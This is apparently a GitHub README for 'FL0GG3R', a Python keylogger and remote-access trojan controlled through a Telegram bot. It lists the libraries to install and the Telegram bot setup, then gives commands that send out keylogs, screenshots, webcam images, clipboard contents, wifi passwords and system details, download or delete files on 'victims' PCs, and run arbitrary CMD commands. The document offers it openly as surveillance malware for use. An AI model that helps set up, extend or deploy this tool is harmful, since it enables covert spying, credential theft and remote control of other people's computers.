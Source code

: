 # FL0GG3R

An advanced python-based keylogger which can send key logs and many much using a telegram bot

![alt text](https://raw.githubusercontent.com/F41Z4N/FL0GG3R/master/Pins/1.png)

## Installation

Use the package manager [pip](https://pip.pypa.io/en/stable/) to install these libraries to use FL0GG3R.

```bash
pip install requests
pip install pywin32
pip install python-opencv
pip install pprint 
pip install pynput 
pip install logging 
pip install pyautogui
pip install telepot
```

Now use [FatherBot](https://telegram.me/BotFather) to create a custom Telegram Bot and obtain Bot API
1. /newbot - To Create a new bot.
2. Name the Bot ( As you like it ).
3. Now type BOT's username ending with 'bot'.
4. When Bot gets created successfully copy this HTTP API ( Bot API ).

![alt text](https://raw.githubusercontent.com/F41Z4N/FL0GG3R/master/Pins/2.png)


Then use [Chatid_echo_Bot](https://telegram.me/chatid_echo_bot) to get your chat id

![alt text](https://raw.githubusercontent.com/F41Z4N/FL0GG3R/master/Pins/3.png)




## Usage

Insert your BOT API and chat id in [FL0GG3R.py](https://github.com/F41Z4N/FL0GG3R/blob/master/FL0GG3R.py) program and run the file

## Commands
./start – to display the welcome message

./more – to get details of more commands

./cmd [and a CMD command] – to execute CMD based commands

./cmd help - to get CMD commands list

./keylog – to get keylog file

./removekeylog – to remove the created key logs

./screen [and any filename.png] – to capture the screenshot

./down [filename with path]  – to download files from victims pc

./webcam [and any filename.png] – to get webcam image

./delete [filename with path] – to delete any victims files

./wifi – to get wifi and passwords

./info – to get basic details of the victim’s system information

./detail_info – to get detailed victim’s system information

./clip – to capture clipboard data

